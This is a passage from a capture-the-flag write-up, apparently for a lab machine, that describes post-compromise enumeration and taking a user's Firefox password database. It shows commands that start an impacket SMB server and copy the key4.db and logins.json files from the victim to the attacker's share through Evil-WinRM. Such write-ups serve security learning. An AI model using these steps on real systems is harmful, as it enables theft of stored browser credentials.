 ## Starting as nikk37 - Enumeration
We don't have any special privileges as `nikk37`. 

One thing that caught my eye is LAPS
![picture 56](/assets/images/65488cba42edc690f21e3bb0a727b57638301cd99366ad54135958102cd6cba9.png)  

The other thing was Firefox password database:

![picture 57](/assets/images/f8723bd65d9ca73f9436badbae815d359097656711ebccafadee67b1189e9caa.png)  

## Firefox Password Database Decryption

We need only 2 files from the system, the `key4.db` and `logins.json`. I first thought i'd upload them to webserver, but having no privileges with `nikk37` i've decided to use SMB.

Start the impacket's smbserver:
```
impacket-smbserver share . -user luka -pass luka -smb2support
```

```
*Evil-WinRM* PS C:\inetpub\streamio.htb\images> net use \\10.10.14.6\share /u:luka luka
The command completed successfully.

*Evil-WinRM* PS C:\inetpub\streamio.htb\images> copy C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db \\10.10.14.6\share
*Evil-WinRM* PS C:\inetpub\streamio.htb\images> copy C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json \\10.10.14.6\share
```

And extract the passwords using `firepwd`: